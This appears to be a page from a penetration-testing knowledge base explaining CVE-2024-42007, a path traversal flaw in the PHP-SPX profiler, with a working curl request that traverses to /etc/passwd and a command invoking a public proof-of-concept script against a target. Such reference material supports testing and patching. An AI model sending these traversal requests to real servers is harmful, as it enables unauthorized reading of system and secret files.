

---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---

# php-spx

[PHP-SPX](https://github.com/NoiseByNorthwest/php-spx) is a lightweight, open-source PHP profiling tool designed to help developers analyze and debug application performance. It integrates with PHP applications to collect detailed runtime metrics such as function call counts, execution times, and memory usage. PHP-SPX provides a web-based interface for visualizing this data, enabling easy identification of bottlenecks and optimization opportunities without significant overhead or complex setup.

## Local File Inclusion


Based on the [Journey to discovery and exploitation of path traversal in PHP-SPX (CVE-2024-42007)](https://www.vicarius.io/vsociety/posts/journey-to-discovery-and-exploitation-of-path-traversal-in-php-spx-cve-2024-42007) blog post by secatgourity.


PHP-SPX versions up to `0.4.15` are affected by a path traversal vulnerability ([CVE-2024-42007](https://nvd.nist.gov/vuln/detail/CVE-2024-42007)) allowing unauthenticated attackers to read arbitrary files from the server. This issue arises from improper sanitization of the `SPX_UI_URI` parameter.&#x20;

Exploitation requires crafting a specially formatted request to the vulnerable endpoint, leveraging the traversal flaw to specify the target file's path. Note that the `SPX_KEY`, a **secret token** used to authenticate requests to the profiler UI/API, will need to be inlcuded in the request (e.g. via `phpinfo.php`) as mentioned in the [official documentation](https://github.com/NoiseByNorthwest/php-spx?tab=readme-ov-file#basic-usage):

> Just open with your browser the following URL: `http://localhost/?SPX_KEY=dev&SPX_UI_URI=/` to access to the web UI [control panel](https://github.com/NoiseByNorthwest/php-spx?tab=readme-ov-file#control-panel).

<figure><figcaption></figcaption></figure>


```bash
# Manual request
$ curl -s --path-as-is "http://spx/index.php/?SPX_KEY=a2a90ca2f9f0ea04d267b16fb8e63800&SPX_UI_URI=/../../../../../../../etc/passwd"
```


A Python-based [PoC](https://github.com/BubblyCola/CVE_2024_42007) exploit exists that demonstrates that automates the process, facilitating the extraction of sensitive information remotely.

```bash
python3 CVE_2024_42007.py -t http://spx -f /etc/passwd
```
